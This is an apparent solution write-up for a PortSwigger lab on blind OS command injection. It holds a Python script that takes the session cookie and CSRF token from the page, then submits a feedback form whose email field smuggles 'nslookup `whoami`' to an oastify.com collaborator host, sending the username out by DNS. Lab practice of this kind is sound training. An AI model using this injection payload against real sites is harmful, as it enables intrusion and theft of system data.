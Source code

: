 # Lab: Blind OS command injection with out-of-band interaction

link to lab: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup
from datetime import datetime


res = requests.get(
    'https://0a7b002304d6d005c2fd8f1e00b900f1.web-security-academy.net/feedback',
    verify=False,
)
soup = BeautifulSoup(res.text, 'html.parser')
session = res.cookies.get('session')
csrf_token = soup.find('input', {'name': 'csrf'})['value']
print("session: ", session)
print("csrf: ", csrf_token)


cookies = {
    'session': session,
}

data = {
    'csrf': csrf_token,
    'name': 'a',
    'email': 'a@a.a; nslookup `whoami`.dj0o0abu85c8n2t1c8i4katb026tuji8.oastify.com ;',
    'subject': 'a',
    'message': 'a',
}

response = requests.post(
    'https://0a7b002304d6d005c2fd8f1e00b900f1.web-security-academy.net/feedback/submit',
    cookies=cookies,
    data=data,
    verify=False,
)
```

After that, take name of the current user in burp collaborator submitted to solve the lab.